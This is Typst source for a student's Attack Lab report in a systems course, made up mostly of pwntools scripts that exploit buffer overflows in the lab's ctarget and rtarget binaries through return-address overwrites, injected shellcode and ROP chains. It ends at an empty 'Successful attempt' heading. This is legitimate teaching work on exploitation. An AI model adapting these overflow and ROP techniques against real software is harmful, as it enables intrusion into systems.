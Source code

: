 #let title = [CSED211: Attack Lab Report]

#set page(
  paper: "a4",
  header: align(right + horizon, title),
  numbering: "- 1 / 1 -",
)
#set par(justify: true)
#set text(
  font: "IBM Plex Serif",
  size: 11pt,
  hyphenate: false,
)
#set heading(numbering: "I a. ")
#show raw: set text(font: "IBM Plex Mono")

#align(center, text(size: 24pt, weight: "bold",
  title
))
#align(right, text(style: "italic")[
  2024-10-23/2024-11-06 \
  20230262 / Yeonung Kim \
  yeonung04\@postech.ac.kr \
])
#rect(width: 100%, align(center)[
  #block(text(size: 13pt, weight: "bold")[
    명예서약 Honour Code
  ])
  나는 이 프로그래밍 과제를 다른 소스를 인용없이 참고하거나, \
  다른 사람의 부적절한 도움을 받지 않고 완수하였습니다. \
  I hereby pledge on my honour that I have not given or received \
  any unauthorised assistance on this assignment. \
])

= `c1.py`

```python
#!/usr/bin/env python3

from pwn import *
from sys import argv

proc = process(["ctarget", *argv])
elf = ELF("ctarget")
cookie = int(open("cookie.txt").read(), 16)
buffer_size = 0x18

exploit = b"\x90" * buffer_size + p64(elf.symbols["touch1"])
open("c1.in", "wb").write(exploit)

proc.sendline(exploit)
proc.interactive()
```

= `c2.py`

```python
#!/usr/bin/env python3

from pwn import *
from sys import argv

proc = process(["ctarget", *argv])
elf = ELF("ctarget")
cookie = int(open("cookie.txt").read(), 16)
buffer_addr = 0x55617488
buffer_size = 0x18

shellcode = asm(f"mov edi, {cookie}; ret")
# Sneaky RET ROPgadget to satisfy 128-bit alignment for movaps in sprintf
exploit = shellcode + b"\x90" * (buffer_size - len(shellcode)) \
    + p64(buffer_addr) \
    + p64(buffer_addr + len(shellcode) - 1) \
    + p64(elf.symbols["touch2"])
open("c2.in", "wb").write(exploit)

proc.sendline(exploit)
proc.interactive()
```

= `c3.py`

```python
#!/usr/bin/env python3

from pwn import *
from sys import argv

proc = process(["ctarget", *argv])
elf = ELF("ctarget")
cookie = int(open("cookie.txt").read(), 16)
buffer_addr = 0x55617488
buffer_size = 0x18

sval = hex(cookie)[2:].encode("utf-8") + b"\0"
shellcode = asm(f"mov edi, {buffer_addr + buffer_size + 0x8 * 3}; ret")
# Sneaky RET ROPgadget to satisfy 128-bit alignment for movaps in sprintf
exploit = shellcode + b"\x90" * (buffer_size - len(shellcode)) \
    + p64(buffer_addr) \
    + p64(buffer_addr + len(shellcode) - 1) \
    + p64(elf.symbols["touch3"]) \
    + sval
open("c3.in", "wb").write(exploit)

proc.sendline(exploit)
proc.interactive()
```

= `r1.py`

== Initial attempt (marked invalid)

```python
#!/usr/bin/env python3

from pwn import *
from sys import argv

proc = process(["rtarget", *argv])
elf = ELF("rtarget")
rop = ROP("rtarget")
cookie = int(open("cookie.txt").read(), 16)
buffer_size = 0x18

exploit = b"\x90" * buffer_size \
    + p64(rop.rdi.address) \
    + p64(cookie) \
    + p64(rop.ret.address) \
    + p64(elf.symbols["touch2"])
open("r1.in", "wb").write(exploit)

proc.sendline(exploit)
proc.interactive()
```

== Successful attempt

